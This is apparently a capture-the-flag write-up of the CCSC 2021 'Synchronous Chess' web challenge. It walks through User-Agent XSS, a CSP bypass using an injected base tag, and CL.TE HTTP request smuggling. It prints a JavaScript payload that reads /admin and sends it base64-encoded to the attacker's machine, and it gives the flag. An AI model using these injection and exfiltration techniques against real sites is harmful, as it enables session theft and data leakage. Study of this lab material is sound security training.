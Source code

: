```yaml
---
title: CCSC 2021&#58; Synchronous Chess
tags: ccsc web xss smuggling writeup
---
```


## Description
The final match of the Moscow Invitational (1968) has been adjourned at the request of the defending World Champion, Vassily Borgov. His next move has been stored for safe keeping by the arbiters of the tournament, until the match resumes tomorrow. However, the arbiters cannot be trusted 100% so we need to help Beth smuggle out the move so she can be sure that no foul play will abound.

Challenge running at: [http://192.168.125.11:7000](http://192.168.125.11:7000/)

___

Reading the description i didn't get any hint towards what the challenge might be, so i quickly opened the web app and started testing. The web apps home page greets us with a login page.

![](images/Pasted%20image%2020210421194104.png)

I first tried some defualt easy-to-guess credentials but no luck there, then i thought about testing for SQL injections but before i started testing i wanted to first enumerate the application a litte, so i started up burp and checked for 404,401,500 and 400 error pages and something odd stood out to me.

As you can see from the image below, a 404 error prints my user-agent at the bottom, but that didnt show in the web app, sneaky author. Next i tested for XSS by changing my user agent to `User-Agent: <script>alert(1)</script>`

![](images/Pasted%20image%2020210421194558.png)

![](images/Pasted%20image%2020210421194907.png)

The script tag got injected to the web app but did not work so i opened my developer tools to check what the error might be:

![](images/Pasted%20image%2020210421194948.png)

Looks like the CSP (Content Security Policy) protected this web page from executing my inline javascript. One can find the CSP configuration from the response headers, in this case it was: 
```
default-src 'self'; script-src 'self' 'nonce-UpZ2W3JTsZCvHOlE'; img-src 'self'; object-src 'none'
```

I quickly threw this policy in a [CSP Evaluator](https://csp-evaluator.withgoogle.com/) and it showed an error that the CSP might be bypassable:


![](images/Pasted%20image%2020210421195241.png)

```
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?
```

I googled online what a [base](https://www.w3schools.com/tags/tag_base.asp) tag is, basically you can add a `base` tag to reference the url that contains all included javascript/css files. Meaning if i add a `base` tag like:

`<base href="http://attacker.com">`

and the web page wanted to fetch `/js/main.js` it would make a request to `http://attacker.com/js/main.js`, and since i control the attacker domain i can easily clone the directory tree and include my own javascript file, bypassing the CSP and getting XSS. 

The CCSC gave all its competitors an attack machine (192.168.125.100) which we could use to get reverse shells, etc. since the challenges cannot access the internet.

I next viewed the source code of the app to see which javascript file i could fake, i used `/static/js/main.js`. I ssh'ed into my attack machine, created the directory tree and a `main.js` file with `alert(1)` as its contents. Then i used `php` to start a web server on port `1234`

![](images/Pasted%20image%2020210421201658.png)

Next i made the same request to get a 404 response but with a `User-Agent` like so: `User-Agent: <base href="http://192.168.125.100:1234/">`. Sent the request and requested the reponse in my browser. As you can see from the screenshot below  it worked! The web page requested the `main.js` file from my attack machine and found it, executing my alert.

![](images/Pasted%20image%2020210421201736.png)

Up until this part was quite easy for me, i had reflected XSS on the web site but did not know how that could help me further. How can i make another user send a request with a custom user-agent? After digging in the application a bit more i noticed a `/admin` path that was restricted, i did not try any header manipulating techniques to bypass the ip restriction since i was 99% sure that the XSS was there for a reason.

![](images/Pasted%20image%2020210421202541.png)

Since i was stuck i went to [burp academy](https://portswigger.net/web-security/all-labs) (I believe you need an account to view the labs) and checked all the Labs that were available, maybe get an idea how to exploit my reflected XSS further and noticed one lab that could help me.

![](images/Pasted%20image%2020210421203024.png)

Http request smuggling sounds perfect for this challenge, in simple terms if the web app is prone to http request smuggling i could send a request like the below screenshot. By abusing the `Content-Length` or `Transfer-Encoding` header the front-end and backend do not aggree on which one to use, as a result the back-end views the smuggled request as a seperate one, this request get stored in the web cache and the next request another user makes will get the response of the smuggled request. 

![](images/Pasted%20image%2020210421204219.png)


I added the `HTTP Request Smuggler` extension to burp suite and scanned the web application for request smuggling on the POST /login endpoint. Then the issue i was expecting appeard, `Possible HTTP Request Smuggling`. 

![](images/Pasted%20image%2020210421221039.png)

Perfect, I sent the above request to my repeater and used the smuggle attack(CL.TE) to check if i could smuggle a request. As you can see from the below screenshots, i smuggle a GET request to a non-exsitent page witin my POST request to `/login`. In the second screenshot we notice that at some point the POST request to `/login` responded with 404!

![](images/Pasted%20image%2020210421221322.png)

![](images/Pasted%20image%2020210421221222.png)

Now all i needed to do is modify the request to include my custom `User-Agent` with the base tag and hopefully i will notice the admin user making requests to my attack machine.

And there you go, i am now getting requests on my attack machine from the admin user

![](images/Pasted%20image%2020210421222129.png)

But all that is happening to the admin user is a simple alert box, i want to see the contents of `/admin`, i updated my `main.js` file to simply make an ajax request to `/admin` and then redirect the admin to my attack machine with `window.location.replace` and add the contents from the ajax request in a GET parameter url encoded

Here is the final payload of `main.js`

```javascript
var x = new XMLHttpRequest(); 
x.open("GET", "http://192.168.125.11:7000/admin");
x.onload = function(){
        response = btoa(x.responseText);
        window.location.replace("http://192.168.125.100:1234/?".concat(response));
 }; 
 x.send(); 
```

Again, sent my smuggled request and BOOM, got the base64 encoded response on my server logs

![](images/Pasted%20image%2020210421224642.png)

Now i just decoded the base64 query parameter and got the flag.

![](images/Pasted%20image%2020210421224814.png)

flag: `CCSC{h77p_R3Qu357_5muGGl1N_15_5up3R_pHuN}`

This was my favourite challenge in the CCSC competition, a big well done to `styx00` for creating such a sick challenge.